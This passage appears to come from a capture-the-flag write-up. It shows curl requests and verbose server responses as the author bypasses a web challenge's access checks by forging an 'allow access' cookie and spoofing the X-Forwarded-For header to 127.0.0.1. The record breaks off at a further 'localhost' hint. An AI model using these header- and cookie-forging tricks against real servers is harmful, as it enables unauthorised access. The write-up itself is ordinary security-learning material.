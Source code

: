 Here's the response:

```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 09:54:18 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: The requested resource is only available for Internal IP only.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact

```

Now a different `X-Note` header appeared. The server denied me because I performed the request from a **non-internal IP address**. I assume it is rational to think an "Internal IP" is the loopback IP, or `127.0.0.1`. And to send the information to the server, I used the `X-Forwarded-For` header. The `X-Forwarded-For` is used for identifying the originating IP address of a client connecting to a web server when the client is connecting through an HTTP proxy or a load balancer.

I sent the adjusted request to the server:
```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 10:03:24 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Okay, but you're still not coming from http://localhost/.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```
